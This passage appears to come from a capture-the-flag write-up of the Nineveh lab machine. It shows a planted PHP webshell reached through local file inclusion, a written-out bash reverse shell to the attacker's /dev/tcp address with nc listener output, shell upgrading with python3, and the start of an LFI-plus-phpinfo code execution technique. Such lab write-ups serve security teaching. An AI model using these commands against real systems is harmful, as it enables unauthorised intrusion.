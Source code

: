 Now I can access the webshell I left earlier at `http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../var/tmp/0xdf.php&cmd=id`

![image-20200411065028130](https://0xdfimages.gitlab.io/img/image-20200411065028130.png)

### Shell

To get a shell, I’ll just change the `cmd` to `bash -c 'bash -i >%26 /dev/tcp/10.10.14.24/443 0>%261'` (it’s important to url encode the `&` or they will be interpreted as starting a new parameter). I get a shell in `nc`:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.43.
Ncat: Connection from 10.10.10.43:40460.
bash: cannot set terminal process group (1387): Inappropriate ioctl for device
bash: no job control in this shell
www-data@nineveh:/var/www/html/department$ 

```

Python2 isn’t on Nineveh, but Python3 is:

```

www-data@nineveh:/var/www/html/department$ python -c 'import pty;pty.spawn("bash")'
The program 'python' can be found in the following packages:
 * python-minimal
 * python3
Ask your administrator to install one of them
www-data@nineveh:/var/www/html/department$ python3 -c 'import pty;pty.spawn("bash")'

```

I’ll Ctrl-z, `stty raw -echo`, `fg`, `reset` to get a fully functional shell.

As www-data, I can see `user.txt` in `/home/amrois`, but I can’t read it.

## Shell as www-data (via phpinfo.php)

### Background

I remember seeing Ippsec exploit this technique in his [Poison video](https://youtu.be/rs4zEwONzzk?t=601). Insomnia Security has a [really neat paper](https://insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf) from 2011 about how LFI + PHPINFO = RCE. First, PHP has to be configured with `file_uploads = on`. Fortunately, that is the case here:

![image-20200411070402024](https://0xdfimages.gitlab.io/img/image-20200411070402024.png)

This means that any PHP request will accept uploaded files, which are stored to a temporary location until the PHP request is fully processed, and then they will be thrown away. PHPINFO is nice enough to list those files. I can show this by catching a request to `/info.php` in Burp Proxy and modify it into a POST request with a dummy file like this:
